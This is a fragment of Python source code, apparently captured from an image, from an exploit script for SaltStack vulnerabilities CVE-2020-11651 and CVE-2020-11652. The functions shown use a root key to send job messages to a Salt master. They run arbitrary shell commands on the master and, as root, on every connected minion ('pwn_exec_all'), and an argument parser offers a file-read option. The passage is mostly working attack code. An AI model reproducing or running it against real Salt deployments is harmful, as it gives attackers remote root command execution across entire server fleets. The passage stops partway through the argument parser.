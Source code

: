 ```python
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'runner',
        'fun': 'salt.cmd',
        'saltenv': 'base',
        'user': 'sudo_user',
        'kwarg': {
            'fun': 'cmd.exec_code',
            'lang': 'python',
            'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
        },
        'jid': jid,
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return

    if rets.get('jid'):
        print('[+] Successfully scheduled job: {}'.format(rets['jid']))

def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': '_send_pub',
        'fun': 'cmd.run',
        'user': 'root',
        'arg': [ "/bin/sh -c '{}'".format(cmd) ],
        'tgt': '*',
        'tgt_type': 'glob',
        'ret': '',
        'jid': jid
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return
    finally:
        if rets == None:
            print('[+] Successfully submitted job to all minions.')
        else:
            print('[-] Failed to submit job')


def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
```